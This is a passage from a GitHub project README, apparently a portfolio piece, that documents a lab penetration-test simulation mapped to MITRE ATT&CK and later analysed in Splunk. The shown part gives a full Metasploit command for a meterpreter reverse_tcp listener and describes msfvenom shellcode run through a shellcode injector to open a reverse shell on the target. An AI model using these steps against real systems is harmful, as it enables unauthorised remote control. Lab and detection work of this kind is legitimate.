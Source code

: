 

# Description

This project demonstrates a penetration test simulation, mapping out an attack from initial access to data exfiltration within a corporate network environment. Then conducting an analysis of the attack using Splunk SIEM and creating alerts based on the attack

Goal: Simulate a cyberattack and then document and analyze the steps involved, highlighting key attack techniques from the MITRE ATT&CK framework.

# Content:
- [Attack Simulation](#attack-simulation)
  - [Initial Access](#1-initial-access)
  - [Persistence](#2-persistence)
  - [Enumeration](#3-enumeration)
  - [Privilege Escalation](#4-privilege-escalation)
  - [Credential Access](#5-credential-access-t1003---credential-dumping)
  - [Lateral Movement](#6-lateral-movement)
  - [Data Exfiltration](#7-data-exfiltration)
- [Analysis and Reporting](#analysis-and-reporting)

&nbsp;
&nbsp;
&nbsp;


# Attack Simulation
&nbsp;
&nbsp;


**Generated shellcode that will have the target connect to 192.168.1.59:4444**

![image](https://github.com/user-attachments/assets/c8ee123e-461a-4657-bbf1-58818a85f39b)

Then I set up the listener using:  `msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.59; set LPORT 4444; exploit"`

- **Payload**: windows/x64/meterpreter/reverse_tcp
- **LHOST (Listening host)**: 192.168.1.59
- **LPORT (Listening Port)**: 4444

## 🚪 1\. **(Initial Access)**

I created a basic [shellcode injector](https://github.com/shaydan12/ShellcodeInjector) that will inject shellcode into a specified process. The shellcode created from msfvenom will be placed in there.

Target runs the executable which then executes a meterpreter shell connection to 192.168.1.59 (port 4444), once I gained access I migrated to a different process
